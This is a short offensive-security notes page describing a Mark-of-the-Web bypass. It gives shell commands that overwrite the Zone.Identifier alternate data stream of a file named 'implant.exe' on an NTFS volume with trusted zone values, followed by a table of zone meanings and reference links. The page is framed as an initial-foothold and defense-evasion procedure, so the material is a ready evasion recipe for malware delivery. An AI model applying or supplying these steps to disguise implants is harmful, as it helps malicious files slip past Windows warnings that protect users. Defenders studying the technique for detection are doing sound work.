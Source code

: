 # 04 - Spoof ZoneTransfer (MOTW Bypass)

Search Tag(s): #initial-foothold #defense-evasion #windows #scenarios

```
$ echo -e "[ZoneTransfer]\nZoneId=0" > /mnt/ntfs/implant.exe:Zone.Identifer

$ echo -e "[ZoneTransfer]\nZoneId=1" > /mnt/ntfs/implant.exe:Zone.Identifer

$ echo -e "[ZoneTransfer]\nZoneId=2" > /mnt/ntfs/implant.exe:Zone.Identifer
```

Unmount the container.

```
$ sudo umount /mnt/ntfs/
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/02 - Defense Evasion/10 - Hide Artifacts/Alternate Data Streams (ADS)/Living off the Land|Windows: Hide Artifacts]]

- [Red Canary: Mark-of-the-Web Bypass](https://redcanary.com/threat-detection-report/techniques/mark-of-the-web-bypass/)

- [SecurityLiterate.com: How Malware Abuses the Zone Identifier to Circumvent Detection and Analysis](https://securityliterate.com/how-malware-abuses-the-zone-identifier-to-circumvent-detection-and-analysis/)

### Table Reference

| Zone Identifier | Description                                                                                                           |
| :-------------: | --------------------------------------------------------------------------------------------------------------------- |
|        0        | File originates from the local machine. It has the least security restriction.                                        |
|        1        | File originated from the local intranet (local network). Both zone identifier 0 and 1 indicate a high level of trust. |
|        2        | Indicates the file was downloaded from a trusted site. This can spoofed by attackers by manipulating the ADS.         |
|        3        | Indicates the file was downloaded from the internet and it is generally untrusted.                                    |
|        4        | Indicates that the file came from a likely unsafe source.                                                             |
